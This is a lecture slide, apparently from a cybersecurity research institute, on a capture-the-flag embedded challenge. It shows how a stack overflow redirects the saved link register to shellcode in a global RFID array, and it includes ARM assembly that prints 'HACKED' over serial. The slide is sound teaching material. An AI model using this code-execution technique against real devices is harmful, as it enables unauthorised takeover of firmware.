

# Full Code Execution via D-Bounce
Challenge summary: you are given a controlled stack overflow and need to redirect the saved LR to the fillChallengeHash function
What about redirecting to some shellcode instead?
Saved LR -> [0x1fff976d + 0x110] (global RFID array)

.section .text
.align 2
.syntax unified
adr r7, serial_putchar
ldrh r7, [r7]
adr r6, hacked
looper:
  ldrb r0, [r6]
  blx r7
  ldrb r0, [r6, #1]
  blx r7
b looper

serial_putchar:
.word 0x3dad

hacked:
.ascii "HACKED\n"

9
Florida institute for Cybersecurity Research